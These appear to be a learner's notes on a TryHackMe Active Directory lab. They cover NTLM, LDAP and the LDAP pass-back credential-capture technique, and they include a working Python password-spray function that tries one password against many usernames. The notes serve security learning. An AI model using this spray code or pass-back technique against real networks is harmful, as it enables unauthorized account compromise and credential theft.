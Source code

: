 # [Breaching Active Directory](https://tryhackme.com/room/breachingad)
## 6/16

- AD - 90% of fortune 1000 companies
- Common- Open Source Intelligence (OSINT) (github,stackoverflow,past breaches) and Phishing
- New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD
- test credentials using RDP, outlook, vpn, 
- brute force triggers alerts
Here is a simple script that does a password spray:
```
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```
- LDAP services: printers, VPN, 
- NTLM vs LDAP: LDAP directly verifies users creds
- LDAP contains AD creds which can be recovered in config files (plain text)
- LDAP Pass-back- configure ip of ldap so printer sends request to rogue server to collect creds
![image](https://user-images.githubusercontent.com/66894542/174899236-0a26cbc2-155e-41ce-848a-c26132aa7a7a.png)

- Does not work so we need to create ldap server to downgrade security. Unfortunately it did not work on kali so I did it in the attackbox:
![image](https://user-images.githubusercontent.com/66894542/174899300-c476a4ac-30f0-4565-a93b-ad020661af74.png)

- no luck… (other people on the forum were also having problems)

![image](https://user-images.githubusercontent.com/66894542/174899337-138b46e4-6dec-40af-8150-c5189004d06a.png)

